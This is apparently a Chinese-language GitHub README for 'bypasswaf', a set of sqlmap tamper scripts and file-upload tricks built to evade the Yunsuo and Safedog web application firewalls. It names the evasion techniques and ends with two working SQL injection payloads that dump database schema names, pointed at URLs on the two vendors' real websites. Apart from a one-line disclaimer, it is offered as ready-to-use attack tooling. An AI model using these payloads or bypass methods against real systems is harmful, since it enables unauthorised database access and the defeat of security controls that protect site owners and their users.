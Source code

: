 # bypasswaf

仅供学习 请勿用作非法用途<br>

2.0：<br>
增加优化了部分规则 现在bypass云锁tamper及bypass安全狗tamper支持所有的注入类型了！<br>
更新了bypass 安全狗 任意文件上传的方法（适用于业务系统存在任意文件上传漏洞但是服务器安装了安全狗环境）<br>
更新了bypass 安全狗 SQL注入tamper，现在支持所有类型的注入了<br>

## 针对最新版云锁和安全狗的sqlmap自动化绕过脚本<br>

包含：<br>
bypass安全狗sql注入tamper <br>
bypass云锁SQL注入tamper （可0警告绕过云锁）<br>
理论上来说规则越多速度也会越慢 所以不追求隐蔽性的可以按需求修改规则<br>

## 针对最新版安全狗的任意文件上传bypass<br>
safedog_upload_yichu.txt<br>
![Image text](https://github.com/pureqh/bypasswaf/blob/master/yichu.png?raw=true)
safedog_upload_huanhang.txt<br>
![Image text](https://github.com/pureqh/bypasswaf/blob/master/huanhang.jpg?raw=true)


## 利用知识点：<br>
安全狗：内联注释<br>
blog:https://pureqh.top/?p=1882<br>
~~云锁：引号包裹注释符绕过检测~~<br>
~~blog:https://pureqh.top/?p=4175~~<br>
云锁：多行注释符嵌入#绕过检测<br>
blog:https://pureqh.top/?p=4414<br>
文件上传：Content-Disposition参数溢出、文件名换行绕过<br>
blog:https://pureqh.top/?p=1225<br>

## 注：bypass云锁  
http://help.yunsuo.com.cn/guide/install/?id=1' REGEXP "[...%26 %23*]" union select 1,group_concat(schema_name),3 from information_schema.schemata  
## 注：bypass安全狗
https://www.safedog.cn/news.html?id=4046' "/*" /*!11444union all select 1,(select group_concat(schema_name) from information_schema.schemata) ,3 */ --+  
